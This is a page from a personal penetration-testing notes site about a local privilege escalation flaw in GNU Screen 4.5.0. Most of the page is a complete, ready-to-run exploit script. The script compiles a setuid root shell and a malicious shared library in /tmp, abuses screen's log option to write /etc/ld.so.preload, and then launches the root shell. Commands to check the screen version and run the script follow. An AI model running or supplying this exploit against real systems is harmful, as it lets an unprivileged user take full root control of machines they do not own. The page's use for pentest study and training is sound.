

repository: amandaguglieri/hackinglife · page: screen-4.5.0/index.html · generator: mkdocs

---
title: Screen 4.5.0
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege
  - escalation
  - linux
---
# Screen 4.5.0

The terminal multiplexer [Screen](https://linux.die.net/man/1/screen) Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.

#### Screen Version Identification

```shell-session
 screen -v
```

#### Screen_Exploit_POC.sh

The below script can be used to perform this privilege escalation attack:

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

#### Privilege Escalation - Screen_Exploit.sh

```shell-session
./screen_exploit.sh 
```
